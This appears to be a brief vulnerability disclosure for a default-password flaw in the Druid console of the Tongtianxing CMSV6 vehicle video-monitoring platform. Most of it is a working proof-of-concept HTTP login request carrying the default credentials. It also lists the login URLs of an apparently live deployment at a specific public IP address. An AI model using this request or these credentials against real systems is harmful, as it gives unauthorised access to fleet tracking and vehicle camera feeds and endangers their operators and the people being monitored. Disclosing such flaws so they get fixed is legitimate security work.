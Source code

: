Dongguan Tongtianxing Software Technology Co., Ltd.'s Vehicle Management System has a default password vulnerability that may affect the system

There is a default password vulnerability in the Druid of the Tongtianxing CMSV6 in car video monitoring platform

developer：http://www.g-sky.cn/





![image-20240327161651680](https://oss.wencha.cfd/img/20240327161653.png)

POC：

```http
  POST /druid/submitLogin HTTP/1.1
  Host: {{Hostname}}
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
  Accept: text/plain, */*; q=0.01
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 42
  Connection: close
  Cookie: JSESSIONID=4F7D8A071EAC19E6196D1775D84D2F8D

  loginUsername=ttx&loginPassword=ttx123456.
```



Referer：

http://15.204.209.106/808gps/login.html

![image-20240327160402075](https://oss.wencha.cfd/img/20240327160403.png)

http://15.204.209.106/druid/login.html



use：loginUsername=ttx&loginPassword=ttx123456.

![image-20240327160626906](../AppData/Roaming/Typora/typora-user-images/image-20240327160626906.png)

